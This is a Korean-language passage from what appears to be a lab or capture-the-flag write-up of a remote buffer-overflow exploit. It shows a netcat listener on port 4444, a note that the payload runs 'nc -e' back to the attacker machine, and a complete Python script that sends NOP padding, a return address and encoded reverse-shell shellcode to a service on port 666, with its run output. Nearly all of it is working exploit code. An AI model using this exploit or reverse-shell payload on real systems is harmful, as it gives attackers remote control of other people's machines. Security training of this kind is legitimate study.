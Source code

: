 * `nc -e 192.168.190.155 4444`를 뜻함
* 위에서 했던거는 웹이여서 `%`쓴거니까 `\x`로 바꿔야함
* **앞 뒤 `\x27`(`"`)은 제거했음**

### 칼리리눅스 4444포트에 netcat 열어두기

```bash
root@ming:~/바탕화면# nc -lvp 4444
listening on [any] 4444 ...
```

### test3.py

```python
import socket

# HINT: \x90*354 + \xa7\x8f\x04\x08 + [payload] (remote)
dummy = '\x90' * 354
hint = '\xa7\x8f\x04\x08'
# earse \x27
shellcode =  '\x54\x58\x2d\x79\xfc\xfd\xfd\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x5c\x25\x01\x01\x01\x01\x25\x02\x02\x02\x02\x2d\x75\x1c\x30\x7d\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x53\xdf\x74\x2b\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x12\xca\x20\x1d\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xf0\xff\xfc\xfc\x2d\x01\x02\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xfe\xfd\xf9\x02\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xfe\xfd\xff\xf5\x2d\x01\x01\x02\x01\x2d\x01\x01\x01\x01\x50\x2d\x0c\xfe\xfa\x03\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xbc\xcd\xc3\xc7\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xfe\xf5\x02\x37\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x33\x02\x4c\xfe\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x2b\xf5\xba\x0c\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x16\x46\x61\x1e\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x78\x9a\x1a\xab\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x04\x58\x7f\xe7\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x37\xba\xf7\x66\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xca\xe7\x7e\x95\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\x0f\x21\x7d\x39\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50\x2d\xe6\x58\x0e\x92\x2d\x01\x01\x01\x01\x2d\x01\x01\x01\x01\x50'

buffer = dummy + hint + shellcode
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "\nming..."
s.connect(('192.168.190.143',666))
print "connected"
s.send(buffer)
data = s.recv(1024)
print "send"
s.close()
```

### 4. test3.py 실행

```bash
root@ming:~/바탕화면# python test3.py

ming...
connected
```
